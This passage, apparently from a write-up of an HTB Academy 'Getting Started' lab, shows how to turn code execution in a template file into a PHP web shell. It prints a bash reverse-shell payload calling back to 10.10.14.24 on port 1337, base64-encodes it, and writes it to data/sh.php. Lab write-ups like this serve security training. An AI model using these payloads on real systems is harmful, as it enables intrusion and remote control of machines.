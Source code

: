 ![Checking for Code Execution - Confirmation](<images/2023-12-23 htb-academy-getting-started-knowledge-check/code-execution-test-confirmation.png>)

we could add our code to establish a shell session right here, but that would be too obvious. let's see how we can exploit this to upload out own php file. we could try to pipe our webshell script into a file. at the end, the file should contain

```
<?php echo system('bash -c \'bash -i >& /dev/tcp/10.10.14.24/1337 0>&1\''); ?>
```

since this gets escaped, let's see if we can base64 encode it first...

```
$ echo "<?php echo system('bash -c \'bash -i >& /dev/tcp/10.10.14.24/1337 0>&1\''); ?>" | base64

PD9waHAgZWNobyBzeXN0ZW0oJ2Jhc2ggLWMgXCdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjI0LzEzMzcgMD4mMVwnJyk7ID8+Cg==
```

so let's add this to the template file.

```
<?php system("echo 'PD9waHAgZWNobyBzeXN0ZW0oJ2Jhc2ggLWMgXCdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjI0LzEzMzcgMD4mMVwnJyk7ID8+Cg==' | base64 -d > data/sh.php"); ?>
```
